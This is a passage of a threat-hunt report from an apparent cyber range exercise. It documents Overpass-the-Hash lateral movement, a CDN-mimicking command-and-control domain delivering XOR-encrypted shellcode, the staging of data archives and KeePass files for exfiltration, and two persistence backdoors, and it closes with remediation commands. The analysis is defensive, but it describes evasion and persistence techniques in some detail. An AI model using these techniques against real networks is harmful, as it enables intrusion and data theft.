| **LAW-SilentCorridor** | 11:10:04 AM | EventID 4768/4769 (Kerberos TGT/TGS) | Shows how the attacker authenticated — Kerberos Overpass-the-Hash |
| **Defender XDR (GF-DC01)** | 11:10:04 AM | Kerberos ticket requests | Confirms the domain controller processed the authentication |
| **Defender XDR (GF-SRV01)** | 11:10:49 AM | SMB file open attempts by `t.harris` | Confirms the attacker actually reached and opened files on the target host |

Together, these sources confirm the full lateral movement chain: LAW-SilentCorridor shows how the attacker authenticated, Defender XDR shows what they did once they arrived.

<details>
<summary><b>→ Full Evidence</b></summary>

**Route 1 — Machine-to-machine (Pass-the-Hash):** 10:01:48 AM | `GF-SRV01$` computer account from 10.1.0.169

**Route 2 — Human account:** 11:10:00 AM | `t.harris` domain user from 10.1.0.120

**Movement to GF-DC01:**
- Row 927–928 (11:10:04 AM): EventID 4768 (TGT request) + 4769 (TGS request) from 10.1.0.169 — Overpass-the-Hash
- Row 931: `t.harris` successful logon to GF-DC01 (EventID 4624)
- Row 1001: EventID 4771 (failed pre-authentication) from 10.1.0.169 — suspicious, worth flagging separately from the successful TGT/TGS pair above

**Additional compromised accounts:**
- Row 959: `m.smith` logs into GF-SRV01 from 10.1.0.133
- Row 973: `sancadmin` (backdoor account) accesses GF-DC01

**GF-DC01 as persistent pivot:** Every Kerberos event (4768, 4769) flows through GF-DC01 — TGT/TGS requests from both GF-SRV01 (10.1.0.169) and GF-WS01 (10.1.0.133) are logged there, making it the authentication center for all lateral movement in this incident.

</details>

---


## C10 — Command and Control

C2 infrastructure disguised as a legitimate CDN, using HTTPS and clean domain reputation to evade detection.

| | |
|---|---|
| **Attack Method** | Hardcoded C2 domain `cdn.cloud-endpoint.net` in `loader.ps1`; HTTPS-encrypted shellcode delivery; domain and its related subdomains carry zero VirusTotal detections |
| **Impact** | Reputation-based blocking would not have caught this — checking only the observed subdomain misses that the whole parent domain and its sibling subdomains are equally clean |

<details>
<summary><b>→ Full Evidence</b></summary>

**C2 Domain:** `cdn.cloud-endpoint.net` — discovered hardcoded in `loader.ps1` (C03 payload analysis), not observed directly in network logs (Defender network-event search for "cloud-endpoint" returned no data — traffic was HTTPS and blended with normal CDN egress)

**Protocol:** HTTPS (port 443) — shellcode delivered XOR-encrypted, decrypted with key 0x4A (from C03), executed in memory with no file artifacts

**VirusTotal — parent + related subdomains (not just the observed one):**
- `cloud-endpoint.net` (parent) — 0/91 vendors flagged, domain ~6 months old
- `cdn.cloud-endpoint.net` (primary C2) — 0/91, no vendor flags
- `api.cloud-endpoint.net` (related) — not in VirusTotal database
- `update.cloud-endpoint.net` (related) — not in VirusTotal database

**Why reputation-based detection failed:** Checking only the observed subdomain would show a clean domain; checking the parent and sibling subdomains shows the same — zero detections across the entire attacker-owned infrastructure, not just one subdomain. Combined with HTTPS encryption (no inline content inspection without SSL interception) and a domain name that mimics legitimate CDN naming conventions, this traffic was invisible to both reputation and network-based detection.

</details>

---
## C11 — Collection and Exfiltration

An early staging attempt on `GF-WS01` failed for lack of privilege; a second attempt succeeded on `GF-DC01` after domain admin access was achieved, archiving domain-wide data.

| | |
|---|---|
| **Attack Method** | Failed: `sancadmin` staged `keepass.zip` on GF-WS01 before achieving privileged access. Succeeded: `NT AUTHORITY\SYSTEM` staged `exfil.zip` on GF-DC01 after lateral movement, with full domain admin equivalent access |
| **Impact** | Attacker collected the full KeePass password vault contents (attempted) and a complete domain data archive from the DC (achieved) — the second attempt had read access to all AD objects and domain secrets |

<details>
<summary><b>→ Full Evidence</b></summary>

**Failed Attempt — GF-WS01:**
- 7/4/2026, 10:03:09 AM — `sancadmin` created `C:\Users\sancadmin\Downloads\keepass.zip`
- User: `sancadmin` (limited privileges at this point)
- Data: KeePass password vault (from C07)
- Why it failed: staged too early, before domain admin access was achieved — likely lacked permissions to complete exfiltration

**Successful Attempt — GF-DC01:**
- 7/4/2026, 3:06:56 PM — `NT AUTHORITY\SYSTEM` created `C:\Windows\Temp\exfil.zip`
- User: `NT AUTHORITY\SYSTEM` (full privileges)
- Data: full domain data collection from the DC
- Why it succeeded: ran after lateral movement completed, with domain admin equivalent access and ability to read all AD objects and domain secrets

**Telemetry sources:** both staging events are visible above as process telemetry (process creation). ⚠️ Still need the matching **file event telemetry** (file creation/write events for `keepass.zip` and `exfil.zip`) to satisfy the hint's "both sources" requirement — add those rows/screenshots here once pulled.

</details>
---

## C12 — Impact Assessment & Remediation

Full domain compromise achieved, with two independent backdoors that survive standard password-reset remediation.

| | |
|---|---|
| **Impact** | Domain controller compromised; all domain user accounts harvested; full administrative access across all three hosts; persistence mechanisms independent of domain credentials |
| **Remediation** | Delete `sancadmin` local account (GF-WS01); remove `WindowsUpdate` scheduled task (GF-SRV01); reset all domain passwords; audit and remove unauthorized accounts |


```mermaid
graph LR
    A[Full Domain Compromise] --> B[Attacker Can - Reset Passwords, Create Accounts, Access All Files, Install Malware]
    A --> C[Backdoor 1 - sancadmin on GF-WS01]
    A --> D[Backdoor 2 - WindowsUpdate Task on GF-SRV01]
    C --> E[Survives Password Reset]
    D --> E
```

<details>
<summary><b>→ Full Evidence & Remediation Commands</b></summary>

**Attacker obtained:** domain admin (via `svc_backup` + AdminSDHolder, C08); all three hosts; credentials for `svc_backup`, `t.harris`, `m.smith`, `sancadmin`

**Backdoor 1:** `sancadmin` local account, GF-WS01, created Jul 4 10:01:35 AM — `sancadmin` / `ChangeThis2026fix`

**Backdoor 2:** `WindowsUpdate` scheduled task, GF-SRV01, created Jul 4 9:11:20 AM — runs as SYSTEM, executes `C:\Windows\Temp\srv.exe`

**Remediation commands:**


schtasks /delete /tn WindowsUpdate /f del C:\Windows\Temp\srv.exe

Then: reset passwords for `svc_backup`, `t.harris`, `m.smith`, all domain admins; audit scheduled tasks and local admin groups on all hosts.

</details>

---

## Conclusion — What Actually Happened

One infected laptop led to complete control of the company network in about six hours.


```mermaid
graph LR
    A[One Laptop Infected] --> B[Admin Access Stolen]
    B --> C[Spread to Servers + Domain Controller]
    C --> D[Data Stolen]
    C --> E[Hidden Backdoors Planted]
```

**Bottom line**: A single compromised laptop escalated to full control of the company's digital environment — a total domain compromise. Fixing it takes more than a password reset; the backdoors must be found and removed manually.


---

**[Portfolio](https://github.com/Danielle-Respes)** • **[LinkedIn](https://www.linkedin.com/in/danielle-respes-64113767/)**

*LOG(N) Pacific Cyber Range // Hidden Directive // Built by SancLogic*
